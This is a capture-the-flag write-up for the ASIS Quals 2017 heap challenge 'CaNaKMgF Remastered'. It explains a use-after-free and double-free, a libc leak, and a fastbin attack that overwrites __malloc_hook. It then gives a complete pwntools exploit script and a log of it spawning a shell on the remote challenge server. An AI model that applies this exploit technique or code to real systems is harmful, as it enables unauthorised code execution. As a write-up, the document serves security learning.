 ```yaml
---
layout: post
title: ASIS Quals CTF 2017 - CaNaKMgF Remastered
published: True
---
```


**Points:** 384
**Solves:** 25
**Category:** Exploitation 

> [CaNaKMgF_remastered](../binaries/CaNaKMgF_remastered)

{% highlight bash %}
CaNaKMgF_remastered: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e4ba2a9e3c69441f88481b5e06ac21fd52c54b9a, not stripped
{% endhighlight %}

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Intro
This program is based off the `CaNaKMgF` pwnable challenge, except that `CaNaKMgF_remastered` has full RELRO enabled and PIE enabled. Interestingly, during the CTF, I had already solved `CaNaKMgF` using a technique that bypassed both mitigations, so I re-used the same exploit for `CaNaKMgF_remastered` and was able to get the flag.

## Reversing
When we run the program, we are presented with the following menu.

{% highlight bash %}
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
{% endhighlight %}

The program is very simple. It allows us to allocate heap chunks of different sizes, which it places in a global array in the .BSS called `alloc_list[]`. 
We can write data of our choosing into these chunks and the program ensures that the length of our data fits inside the chunk we've allocated for it.  
We can specify chunks from this list that we would like to print out the contents of.
Similarly, we can also free any chunks in this list.
 
There was also some functionality to read limited files off the remote server when one selected the "Pray for Allah" option in the `CaNaKMgF` binary, but this function no longer worked in `CaNaKMgF_remastered`, and I didn't use it in my exploit for `CaNaKMgF`, anyway.

## Exploit
The main vulnerability in this program is that when a chunk is freed, the associated pointer to the chunk is not removed from `alloc_list[]`. This allows us to perform **use-after-frees** and **double-frees** which we can abuse to corrupt the heap and gain code execution.

To get a libc leak, we can exploit the **UAF** to allocate 2 small chunks, free one of them and then print its contents out, since we know the `FD` and `BK` pointers of our free'd small chunk will be populated with a pointer to an offset from `main_arena` in libc.

To get control of `RIP`, we can perform a **fastbin attack** to get `malloc()` to return an almost arbitrary pointer, overwrite `__malloc_hook`, and then call our overwritten `__malloc_hook` function pointer by triggering a double free memory corruption error.

To perform the **fastbin attack**, we will allocate 2 fast chunks of size `0x68` bytes, and free the 2nd one, then the 1st one, and then the 2nd one again, abusing the fact that we can double-free fast chunks, so long as the head of the freelist that their fast chunk size is associated with, is not the same as the chunk that is being free'd.  

from `malloc.c`:
{% highlight C %}
if (__builtin_expect (old == p, 0))
  {
    errstr = "double free or corruption (fasttop)";
    goto errout;
  }
{% endhighlight %}

So, right now our fastbin looks like this:

[HEAD]->D->C->D->NULL 

Now, we will allocate another fast chunk of the same size as D, so that D is popped off this freelist and used to service our `malloc()` request.

Since we can also specify the contents of chunks we allocate, we will overwrite the first qword of this chunk with the address of our target that we would like `malloc()` to return.

**This corrupts the `FD` pointer of chunk D, a pointer to  which, still exists in the singly linked freelist!** 

We can select any address to overwrite the `FD` pointer with, subject to certain constraints. 

from `malloc.c`:
{% highlight C %}
 if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
{% endhighlight %}

To satisfy these constraints, we will abuse the fact that we can make `FD` point to misaligned addresses as long as they satisfy the valid size metadata field constraint. In our case, since we are targeting fast chunks of size `0x68`, the following is a valid address should do the trick.

{% highlight C %}
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/32xg 0x7ffff7dd1b10-0x30+0xd
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f 
0x7ffff7dd1afd:                         0xfff7a93270000000      0xfff7a92e5000007f 
0x7ffff7dd1b0d <__realloc_hook+5>:      0xfff7a92c8000007f      0x000000000000007f
0x7ffff7dd1b1d:                         0x0000000000000000      0x0000000000000000
{% endhighlight %}

At this point, our freelist should now look like this:

[HEAD]->C->D->{target addr}

After two more allocations, our target address should now be at the head of this freelist:

[HEAD]->{target addr}

Then, the next memory allocation of size `0x68` should return a pointer to our target address`+0x10` and since we can control the contents of chunks we allocate, we  will simply overwrite `__malloc_hook` with a **"magic" one gadget RCE** address.

Once we trigger an actual double free corruption error, the program should now spawn a shell.

## exploit.py
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def allocate(length, contents):
    r.sendline("1")
    r.recvuntil("Length?")
    r.sendline(str(length))
    r.sendline(contents)
    r.recvuntil("away")

def free(idx):
    r.sendline("3")
    r.recvuntil("Num? ")
    r.sendline(str(idx))
    r.recvuntil("away")

def read(idx):
    r.sendline("4")
    r.recvuntil("Num? ")
    r.sendline(str(idx)) 
    return r.recvuntil("away")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    
    # leak libc
    log.info("starting leaks...")
    allocate(255,"A")
    allocate(255,"B")
    free(0)

    libc_base = u64(read(0)[:6].ljust(8,'\0'))-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base)) 
    log.success("one_shot found at: "+hex(one_shot)+"\n\n") 

    ## fastbin attack
    log.info("starting fastbin attack...")
    allocate(0x68,"C") # C # 2
    allocate(0x68,"D") # D # 3
    allocate(255, "E") # E
    
    free(3)
    free(2)
    free(3)

    # overwrite __malloc_hook
    payload = p64(malloc_hook-0x30+0xd)
    allocate(0x68, payload)
    allocate(0x68, "F")
    allocate(0x68, "G")
    allocate(0x68,"H"*0x13+p64(one_shot))
    free(0)
   
    # trigger
    r.sendline("3")
    r.sendline("0") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./CaNaKMgF_remastered'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  CaNaKMgF_remastered python exploit.py 128.199.85.217 10001
[*] For remote: exploit.py HOST PORT
[+] Opening connection to 128.199.85.217 on port 10001: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting leaks...
[+] libc base found at: 0x7f80b7c9f000
[+] one_shot found at: 0x7f80b7d8e6c4
    
[*] starting fastbin attack...
[*] Switching to interactive mode

Num? $ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
CaNaKMgF
F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
$ cat F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
ASIS{full_relro_fastbin_attack!!!!!!_:-P}
$
{% endhighlight %}
